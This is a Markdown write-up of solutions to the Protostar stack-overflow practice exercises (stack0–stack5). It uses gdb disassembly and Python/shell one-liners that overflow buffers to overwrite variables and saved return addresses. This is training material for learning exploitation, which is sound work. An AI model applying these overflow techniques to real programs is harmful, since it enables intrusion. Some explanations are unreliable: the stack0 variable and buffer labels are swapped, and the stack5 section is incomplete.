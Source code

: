 # the solutions of protostar

## table of content

- [the solutions of protostar](#the-solutions-of-protostar)
  - [table of content](#table-of-content)
  - [stack0](#stack0)
    - [stack0 solution](#stack0-solution)
  - [stack1](#stack1)
    - [stack1 solution](#stack1-solution)
  - [stack2](#stack2)
    - [stack2 solution](#stack2-solution)
  - [stack3: python3 encoding(bad characters)](#stack3-python3-encodingbad-characters)
    - [stack3 solution](#stack3-solution)
  - [stack4: modify EIP](#stack4-modify-eip)
    - [stack4 solution](#stack4-solution)
  - [stack5: jmp esp](#stack5-jmp-esp)
    - [stack5 solution](#stack5-solution)
  - [stack6](#stack6)

## stack0

```asm
(gdb)disassemble
Dump of assembler code for function main:
=> 0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     and    esp,0xfffffff0
   0x080483fa <+6>:     sub    esp,0x60                    # allocating space. char buffer[64]
   0x080483fd <+9>:     mov    DWORD PTR [esp+0x5c],0x0    # volatile int modified
   0x08048405 <+17>:    lea    eax,[esp+0x1c]
   0x08048409 <+21>:    mov    DWORD PTR [esp],eax
   0x0804840c <+24>:    call   0x804830c <gets@plt>
   0x08048411 <+29>:    mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:    test   eax,eax
   0x08048417 <+35>:    je     0x8048427 <main+51>
   0x08048419 <+37>:    mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:    call   0x804832c <puts@plt>
   0x08048425 <+49>:    jmp    0x8048433 <main+63>
   0x08048427 <+51>:    mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:    call   0x804832c <puts@plt>
   0x08048433 <+63>:    leave
   0x08048434 <+64>:    ret
```

- `[esp+0x1c]`: the variable
- `[esp+0x5c]`: the stack buffer

- when input length > buffer.size, the bottom of the stack (ebp) gets overwrited

- **Think about the pointer. `buffer[65]` points to a higher address than `buffer[0]`.**
- The actual memory location of the `buffer` could be printed using `printf("%p\n", (void *) buffer)`, or `$esp+0x1c` @ `*main + 17`.
- Hence when the buffer overflows, the variable stored at `[esp+0x5c]` @ `*main + 9`, which is higher than the aforementioned `buffer`, will be overwritten eventually.

### stack0 solution

```sh
python3 -c "print('A' * 80)" | ./stack0
```

## stack1

```asm
   0x080484ab <+71>:    cmp    eax,0x61626364
```

```gdb
r $(python3 -c 'print("A" * 64 + "BCDEFGHIJKLMNOPQRSTUVWXYZ")')
r $(python3 -c "print(b'A' * 64 + b'\x42\x43\x44\x45')")
  # the "b'" occupies 2 bytes
b *main + 71
info registers    # eax 0x45444342 
```

### stack1 solution

```sh
# ./stack1 $(python3 -c "print(b'A' * 62 + b'\x64\x63\x62\x61')")
./stack1 $(python3 -c "print('A' * 64 + '\x64\x63\x62\x61')")
```

## stack2

```gdb
b *main+84
```

### stack2 solution

```sh
GREENIE=$(python3 -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')");export GREENIE;printenv GREENIE;
  # if use b'', the \x0a will be literally parsed as '\' 'x' '0' 'a'
./stack2
```

## stack3: python3 encoding(bad characters)

```asm
  0x08048475 <+61>:    call   eax 
```

- find out the target binary

```sh
objdump -d stack3 | grep win
  # @ 0x08 04 84 24 
```

- redirect the `fp();` call. Problem: bad chars

```gdb
b *main + 61
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * 64 + '\x24\x84\x04\x08')")
  # bad chars. The '\x84' get parsed as '\xc2\x84' in python3. Possible UTF-8 <control> string.
  # solution: use echo -e -n
```

### stack3 solution

```sh
./stack3 <<< $(python3 -c "print('A' * 64)"|xargs echo -en;echo -en '\x24\x84\x04\x08')
```

## stack4: modify EIP

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x08048408 <+0>:     push   ebp
  0x08048409 <+1>:     mov    ebp,esp
  0x0804840b <+3>:     and    esp,0xfffffff0                  # padding, esp <- ebp-0xb
  0x0804840e <+6>:     sub    esp,0x50
  0x08048411 <+9>:     lea    eax,[esp+0x10]
  0x08048415 <+13>:    mov    DWORD PTR [esp],eax
  0x08048418 <+16>:    call   0x804830c <gets@plt>
  0x0804841d <+21>:    leave
  0x0804841e <+22>:    ret
End of assembler dump. 
```

```sh
objdump -d ./stack4
  # 080483f4
```

```gdb
b *main + 22
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * (64 + int(0xb + 0x4)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack4 solution

```sh
./stack4 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

## stack5: jmp esp

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x080483c4 <+0>:     push   ebp
  0x080483c5 <+1>:     mov    ebp,esp
  0x080483c7 <+3>:     and    esp,0xfffffff0
  0x080483ca <+6>:     sub    esp,0x50
  0x080483cd <+9>:     lea    eax,[esp+0x10]
  0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
  0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
  0x080483d9 <+21>:    leave
  0x080483da <+22>:    ret
End of assembler dump.
```

- info:
  + `leave` === `# mov esp, ebp -> pop ebp`. The `pop ebp` means esp += 4
  + `ret` esp += 4 again, and `eip <- [esp]`, which is the so-called `JMP esp`

```gdb
b *main + 21
info proc mappings
   # start      end           size        offset objfile
   # 0xffbf2000 0xffc13000    0x21000        0x0 [stack]
./stack5 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')

   # objdump -d ./stack5
   # 080483c4 <main>

   # leave                  esp=0xfff34180 ebp=0xfff341d8 -> esp=0xfff341dc
     # (gdb) x/4wx $esp
     # 0xfff341dc:     0xf7d0ff21      0x00000001      0xfff34274      0xfff3427c 
   # ret
     # eip=0xf7d0ff21
r <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack5 solution

```sh
./stack5 <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

- A problem: to `jmp esp`, `ebp` must be overwritten (modern system stack cookie)

## stack6